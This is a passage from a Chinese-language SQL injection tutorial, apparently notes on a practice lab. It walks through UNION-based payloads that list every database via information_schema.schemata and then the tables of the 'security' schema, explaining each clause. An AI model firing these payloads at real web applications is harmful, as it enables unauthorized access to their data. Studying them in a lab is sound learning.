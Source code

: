 ![image-20250902152155305](images/image-20250902152155305.png)

所有数据库：

```
?id=-1' UNION SELECT 1,group_concat(schema_name),3 FROM information_schema.schemata--+

SELECT * FROM users WHERE id ='1' UNION SELECT 1,GROUP_CONCAT(schema_name),3 FROM information_schema.SCHEMATA -- LIMIT 0,1;
```

**核心部分：`UNION SELECT 1, GROUP_CONCAT(schema_name), 3 FROM information_schema.SCHEMATA`**

- `UNION`：用于合并两个查询的结果集（要求前后查询的字段数量和类型一致）。

- ```
  SELECT 1, GROUP_CONCAT(schema_name), 3
  ```

  ：

  - `1` 和 `3` 是占位符，用于匹配原始查询的字段数量（假设 `users` 表有 3 个字段），确保 `UNION` 语法正确。

  - ```
    GROUP_CONCAT(schema_name)
    ```

    ：核心注入逻辑，用于获取数据库中所有库名：

    - `information_schema.SCHEMATA` 是 MySQL 系统表，存储了所有数据库（库）的元信息。
    - `schema_name` 是该表的字段，代表 “数据库名”。
    - `GROUP_CONCAT()` 函数会将所有库名拼接成一个字符串（避免多行返回），方便在页面中显示。

![image-20250903104350015](images/image-20250903104350015.png)

![image-20250902152327134](images/image-20250902152327134.png)

------

### ⑥ 获取表名

当前数据库是 `security`：

```
?id=-1' UNION SELECT 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='security'--+
